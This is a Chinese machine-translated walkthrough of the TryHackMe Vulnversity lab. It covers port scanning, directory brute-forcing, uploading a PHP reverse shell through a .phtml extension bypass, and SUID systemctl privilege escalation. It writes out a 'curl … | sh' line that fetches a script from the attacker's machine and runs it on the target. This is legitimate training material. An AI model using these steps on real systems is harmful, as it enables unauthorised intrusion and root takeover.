# TryHackMe。入侵一台大学机器。

> 原文：<https://infosecwriteups.com/tryhackme-hacking-a-vulnversity-machine-a5eff51a6332?source=collection_archive---------2----------------------->

如果你对学习道德黑客/ pentesting 感兴趣，请查看我的 TryHackMe Vulnversity walk through。

从尝试 hackme.com 检索

1.  侦察

危害给定机器的第一步是使用 Nmap 进行端口扫描。



我在这次扫描中使用的开关是:

*   -sV(用于服务版本发现)
*   -oN(用于将结果保存在 Nmap 格式的文件中)

正如我们从结果中看到的，有一个 web 服务器运行在端口#3333 上。让我们打开它，看看它会呈现给我们什么。

看起来像大学网站的普通主页。继续下一步。

2.目录遍历

我在处理网站渗透测试时使用的一个常见做法是在最开始时运行几次扫描。当发现网络服务器上的目录时，GoBuster 是一种非常方便的扫描工具。

从 tryhackme.com 取回

事不宜迟，让我们运行扫描，看看我们会得到什么结果。



基本的 GoBuster 语法如下:

**gobuster dir-u<URI>-w/path/to/the/word list**

*   *dir* 关键字用于 direcroty 蛮力
*   *-u* 是 URL 规范的一个选项
*   *-w* 指定单词列表

在上面的例子中，我对常用目录使用了 common.txt 单词表。现在，它涉及到目录遍历本身，下面的截图显示 web 服务器实际上是易受攻击的。



没有适当清理的上传表单会给服务器带来一些麻烦，因为攻击者可能会上传恶意的可执行文件。

3.危及网络服务器

为了查看服务器可以接受哪些扩展，我们可以尝试手动上传或者使用 BurpSuite 这样的自动化工具。

我们最感兴趣的扩展名是. php，为什么？因为 PHP 是用于构建 web 应用程序逻辑的最常见的后端编程语言。php 有不同的风格，所以我们将尝试其中的五种:PHP、php3、php4、php5 和 phtml。

为了提交指定的扩展，BurpSuite 入侵者的狙击攻击将非常有用。下面的截图描述了我们攻击的结果。



好像是。phtml 扩展已成功上传。

现在，是时候进一步用。phtml 扩展名，这将使我们能够访问易受攻击的服务器。该文件的有效负载将是来自著名的 Pentestmonkey 的 php-reverse-shell。你只需要在谷歌里输入 pentestmonkey php-reverse-shell，然后去他的 GitHub 页面就可以找到。

接下来，我们需要用。phtml 扩展，进行一些更改(IP 地址和端口号(可选))，我们就可以开始了。



在 *$ip* 字段中，指定您自己机器的 ip 地址，因为脚本执行时将连接到该字段中指定的 ip 地址。

提交文件后，我们需要做两件事。首先，为了从我们上传到服务器的脚本中获得想要的结果，我们的机器应该能够监听来自目标的传入连接。第二，必须执行脚本，因此连接被初始化。

对于第一个目标，我们将使用带有以下开关的 NetCat 实用程序: **-l** 用于监听， **-v** 用于详细输出， **-n** 用于禁用 dns 查找，以及 **-p** 用于端口号。

对于第二个目标，我们可以手动检查保存上传的潜在位置，或者我们可以使用 GoBuster。

所有设置完成后，应该是这样的:



文件的执行会给我们一个外壳:



4.权限提升

我们权限提升的第一步是扫描系统，这将揭示 PE 的潜在区域。为了做到这一点，我们将使用一套工具，称为 PEASS(特权升级真棒脚本套件)。



从 github.com 取回

但是，在该套件的脚本中，将只使用一个脚本。它叫做 LinPeas，专门用于 Linux 机器的枚举。

为了执行枚举，我们需要将该脚本放在依赖于外壳的易受攻击的 web 服务器上。以下是可能的选项:



对我有用的是使用 Python HTTP server 的第二种方法。

训练是这样的:

第一步——使用 **git clone** 命令将 PEASS 存储库下载到本地机器。



第二步—在远程 web 服务器上传输并执行 linpeas.sh 文件。

为此，我们需要在包含 linpeas.sh 文件的目录中启动 Python HTTP server。



curl <local_host_ip_addr>/linpeas.sh | sh —这个命令将从本地主机检索文件，并在目标 web 服务器上执行它。</local_host_ip_addr>

结果是彩色字符串的长输出。

黄底红的配色方案表示一个物体 99%可以用于 PE。

LinPeas 说/bin/systemctl 程序设置了 SUID 位，这将允许非根用户以根权限运行它。

GTFOBins 是特权提升的最佳资源之一。当涉及到权限提升时，您肯定可以去那里检查您的发现结果。在我们的示例中，systemctl 实用程序设置了 SUID 位，这使得标准用户能够以提升的(sudo)权限运行该命令。

下面是从 GTFOBins 网站上检索到的一个快速解释，引用了 systemctl 上设置了 SUID 位的 PE。



在进入漏洞利用的第二部分之前，我们先来获得一个更稳定的外壳。我们可以通过使用 python 来实现。

*-c "*带有 python3 命令的开关允许我们在命令行中直接输入代码。该命令本身使用 Python 的 pty 库来生成 bash shell。

在获得一个稳定的 shell 之后，我们可以回到 GTFOBins systemctl 漏洞并在根文件夹中获得所需的标志。